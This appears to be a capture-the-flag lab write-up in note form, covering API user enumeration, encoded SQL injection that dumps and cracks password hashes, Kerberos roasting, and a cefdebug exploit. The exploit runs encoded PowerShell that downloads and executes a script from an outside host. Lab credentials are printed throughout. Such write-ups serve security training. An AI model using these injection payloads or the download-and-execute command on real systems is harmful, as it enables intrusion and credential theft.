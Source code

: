 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
<!--⚠️Imgur upload failed, check dev console-->
<!--⚠️Imgur upload failed, check dev console-->
![[Pasted image 20240502232338.png]]
<!--⚠️Imgur upload failed, check dev console-->
![[Pasted image 20240503075425.png]]
- All are not working, except 80
	- [ ] check the website, anything is close
		- [ ] it has an api u can get users from that, also password can be leaked.
		- [ ] SQLi  var isSimple = /^[a-zA-Z]+$/;
	- [ ] ffuf
	- [ ] shortname
![](https://i.imgur.com/pBz5Eg3.png)
```python
import requests

base_url = "http://megacorp.local/api/getColleagues"
file_name = "responses.txt"

# Alphabets from A-Z
alphabets = [chr(i) for i in range(ord('a'), ord('z')+1)]

# Headers
headers = {
    "Host": "megacorp.local",
    "Content-Length": "12",
    "Accept": "application/json, text/plain, */*",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36",
    "Content-Type": "application/json;charset=UTF-8",
    "Origin": "http://megacorp.local",
    "Referer": "http://megacorp.local/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

# Loop through the alphabets and send POST requests
for alphabet in alphabets:
    data = '{"name":"' + alphabet + '"}'
    response = requests.post(base_url, data=data, headers=headers)
    response_data = response.json()

    # Save response data to a file
    with open(file_name, "a") as file:
        file.write(f"Alphabet: {alphabet}\n")
        file.write(f"Response: {response_data}\n")
        file.write("\n")
```
![](https://i.imgur.com/Z1rj1KN.png)
- We have all the endpoints and Users, I tried kerberosting acc. it was not working. so the only thing that sends request to the browser is this page, and based on the field this can be vulnerable, more likely it is fetching from database, so it can be SQLi
	- ![](https://i.imgur.com/oS5nudM.png)
![](https://i.imgur.com/h2CibKd.png)
- I made a Python code to do the converstion but i recently discovered cyberchef can be used too
```PYTHON
def convert_to_unicode(input_string):
    unicode_content = ""
    for char in input_string:
        unicode_char = f"\\u{ord(char):04x}"
        unicode_content += unicode_char
    return unicode_content

# Infinite input taker and Unicode encoder
while True:
    user_input = input("Enter text to encode (or 'exit' to quit): ")

    if user_input.lower() == 'exit':
        break

    unicode_output = convert_to_unicode(user_input)
    print(f"Encoded text: {unicode_output}\n")
```
![](https://i.imgur.com/CiJwYQe.png)

- Using `order by` on sql i determined that there is 5 columns
	- ![](https://i.imgur.com/anYp5FL.png)
- Union to display the columns
![](https://i.imgur.com/t0sjJm1.png)
![](https://i.imgur.com/YcOmk6y.png)

![](https://i.imgur.com/S82W0Yo.png)
![](https://i.imgur.com/tY5Np0h.png)
`\u0061\u0027\u0020\u0055\u004e\u0049\u004f\u004e\u0020\u0073\u0065\u006c\u0065\u0063\u0074\u0020\u0031\u002c\u0044\u0042\u005f\u004e\u0041\u004d\u0045\u0028\u0029\u002c\u0033\u002c\u0034\u002c\u0035\u002d\u002d\u0020\u002d`
![](https://i.imgur.com/DITVrhB.png)
`\u0061\u0027\u0020\u0055\u004e\u0049\u004f\u004e\u0020\u0073\u0065\u006c\u0065\u0063\u0074\u0020\u0031\u002c\u0032\u002c\u0033\u002c\u0054\u0041\u0042\u004c\u0045\u005f\u004e\u0041\u004d\u0045\u002c\u0054\u0041\u0042\u004c\u0045\u005f\u0053\u0043\u0048\u0045\u004d\u0041\u0020\u0066\u0072\u006f\u006d\u0020\u0049\u004e\u0046\u004f\u0052\u004d\u0041\u0054\u0049\u004f\u004e\u005f\u0053\u0043\u0048\u0045\u004d\u0041\u002e\u0054\u0041\u0042\u004c\u0045\u0053\u0020\u0077\u0068\u0065\u0072\u0065\u0020\u0074\u0061\u0062\u006c\u0065\u005f\u0073\u0063\u0068\u0065\u006d\u0061\u003d\u0027\u0064\u0062\u006f\u0027\u002d\u002d\u0020\u002d`
![](https://i.imgur.com/0ycipqK.png)
- After i Determined the columns and tables, i dumpped the databse
`\u0061\u0027\u0020\u0055\u004e\u0049\u004f\u004e\u0020\u0073\u0065\u006c\u0065\u0063\u0074\u0020\u0031\u002c\u0032\u002c\u0033\u002c\u0075\u0073\u0065\u0072\u006e\u0061\u006d\u0065\u002c\u0070\u0061\u0073\u0073\u0077\u006f\u0072\u0064\u0020\u0066\u0072\u006f\u006d\u0020\u0064\u0062\u006f\u002e\u004c\u006f\u0067\u0069\u006e\u0073\u002d\u002d\u0020\u002d`
```sql
[{"id":1,"name":"2","position":"3","email":"aldom","src":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739"},{"id":1,"name":"2","position":"3","email":"alyx","src":"fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa"},{"id":1,"name":"2","position":"3","email":"ckane","src":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813"},{"id":1,"name":"2","position":"3","email":"cyork","src":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739"},{"id":1,"name":"2","position":"3","email":"egre55","src":"cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc"},{"id":1,"name":"2","position":"3","email":"ilee","src":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813"},{"id":1,"name":"2","position":"3","email":"james","src":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739"},{"id":1,"name":"2","position":"3","email":"jorden","src":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739"},{"id":1,"name":"2","position":"3","email":"kpage","src":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813"},{"id":1,"name":"2","position":"3","email":"minatotw","src":"cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc"},{"id":1,"name":"2","position":"3","email":"nbourne","src":"fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa"},{"id":1,"name":"2","position":"3","email":"okent","src":"fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa"},{"id":1,"name":"2","position":"3","email":"rmartin","src":"fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa"},{"id":1,"name":"2","position":"3","email":"sbauer","src":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739"},{"id":1,"name":"2","position":"3","email":"shayna","src":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739"},{"id":1,"name":"2","position":"3","email":"zac","src":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813"},{"id":1,"name":"2","position":"3","email":"zpowers","src":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813"}]
```
![](https://i.imgur.com/o3bq5B7.png)
```json
- aldom,cyork,james,jorden,sbauer,shayna
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
- zpowers,zac,kpage,ilee,ckane
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
- rmartin,okent,nbourne
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
```
- Cracked the hash and did password spray but non of them worked, so i planned to do rid brutefoce using the mssql feature
- tries to identify the admins rid length, it is 28
	- ![](https://i.imgur.com/VuDPzRK.png)
	- ` tushikikatomo:finance1 `
### Gaining Access
![](https://i.imgur.com/brSaAlS.png)

## Internal
### Enumeration
- while enumerating
	- ![](https://i.imgur.com/bcl4Uwq.png)
- This Version is Vulnerable to  [cef debugging](https://github.com/taviso/cefdebug)
- ![](https://i.imgur.com/BH5sj75.png)
- `./cef.exe --code "process.mainModule.require('child_process').exec('powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMQA0ADkAOgA5ADAAOQAwAC8AcgBlAHgALgBwAHMAMQAnACkACgA')" --url ws://127.0.0.1:22952/96cc9331-45c7-4f74-a4e1-5b1f7e31357b`
- ![](https://i.imgur.com/ueCzzIR.png)
![](https://i.imgur.com/cYJuWrZ.png)
`type MultimasterAPI.dll`
![](https://i.imgur.com/aOrGr8F.png)
![](https://i.imgur.com/zFkPx2Y.png)
` sbauer:D3veL0pM3nT! `
- We have access to the Below remote group, but we dont have to the jorden acc ![](https://i.imgur.com/NqjlCdz.png)
![](https://i.imgur.com/cXc4Uzg.png)
### Gaining Access
![](https://i.imgur.com/TLDaOH5.png)

![](https://i.imgur.com/wE4gtzT.png)
![](https://i.imgur.com/CDoFXhd.png)
![](https://i.imgur.com/CHX8oIr.png)
` rainforest786    ($krb5asrep$jorden@MEGACORP.LOCAL)`
![](https://i.imgur.com/ehAgfjt.png)
![](https://i.imgur.com/V0cDcAU.png)
### Maintaining Access
![](https://i.imgur.com/8xNiblE.png)
![](https://i.imgur.com/sCcSshk.png)
# Random Notes
![](https://i.imgur.com/DItVslz.png)
